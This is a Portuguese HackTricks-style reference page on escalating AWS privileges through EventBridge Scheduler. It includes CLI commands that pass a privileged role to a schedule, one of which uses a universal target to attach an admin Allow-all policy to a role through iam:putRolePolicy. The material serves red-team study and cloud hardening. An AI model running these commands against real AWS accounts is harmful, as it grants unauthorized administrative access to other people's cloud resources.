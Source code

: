 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## EventBridge Scheduler

O EventBridge Scheduler pode ser usado para escalonamento de privilégios agendando chamadas para vários serviços AWS. Ao aproveitar sua capacidade de invocar serviços em uma base agendada, usuários com permissões suficientes podem escalar privilégios. Aqui estão algumas das ações principais que o EventBridge Scheduler pode acionar usando alvos modelados:

- Lambda: lambda:InvokeFunction - Invocar funções Lambda em um cronograma.
- CodeBuild: codebuild:StartBuild - Iniciar projetos AWS CodeBuild.
- CodePipeline: codepipeline:StartPipelineExecution - Acionar execuções do AWS CodePipeline.
- ECS: ecs:RunTask - Executar tarefas ECS.
- EventBridge: events:PutEvents - Colocar eventos no EventBridge.
- Inspector: inspector:StartAssessmentRun - Iniciar avaliações do Amazon Inspector.
- Kinesis: kinesis:PutRecord - Colocar registros em streams do Kinesis.
- Firehose: firehose:PutRecord - Colocar registros em streams de entrega do Firehose.
- SageMaker: sagemaker:StartPipelineExecution - Iniciar execuções de pipeline do SageMaker.
- SNS: sns:Publish - Publicar mensagens em tópicos SNS.
- SQS: sqs:SendMessage - Enviar mensagens para filas SQS.
- Step Functions: states:StartExecution - Iniciar execuções de AWS Step Functions.

Essas são apenas algumas das ações modeladas que o EventBridge Scheduler pode realizar. No entanto, ao usar alvos universais, muitas outras ações em serviços AWS podem ser invocadas. Alvos universais permitem operações de API mais extensas além da lista modelada.

Mais informações sobre o EventBridge Scheduler em:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `sts:AssumeRole`, `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Usuários com permissões `sts:AssumeRole`, `iam:PassRole` e `scheduler:CreateSchedule ou scheduler:UpdateSchedule` podem escalar privilégios aproveitando o EventBridge Scheduler para invocar serviços usando um papel com privilégios mais altos.

Com essas permissões, um atacante pode assumir um papel com privilégios elevados e passar esse papel para o EventBridge Scheduler ao criar ou atualizar um cronograma. O cronograma pode ser configurado para realizar qualquer uma das ações listadas anteriormente, como invocar funções Lambda, iniciar tarefas ECS, acionar execuções do CodePipeline ou qualquer operação dos 270 serviços AWS suportados pelo EventBridge Scheduler. Ao agendar essas ações, um atacante poderia abusar de privilégios mais altos para realizar operações não autorizadas em serviços AWS.
\\

Por exemplo, eles poderiam configurar o cronograma para invocar uma função Lambda que é uma ação modelada:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
Além das ações de serviço modeladas, você pode usar alvos universais no EventBridge Scheduler para invocar uma ampla gama de operações de API para muitos serviços AWS. Alvos universais oferecem flexibilidade para invocar quase qualquer API. Um exemplo pode ser usar alvos universais adicionando "AdminAccessPolicy", usando um papel que tem a política "putRolePolicy":
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Referências

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
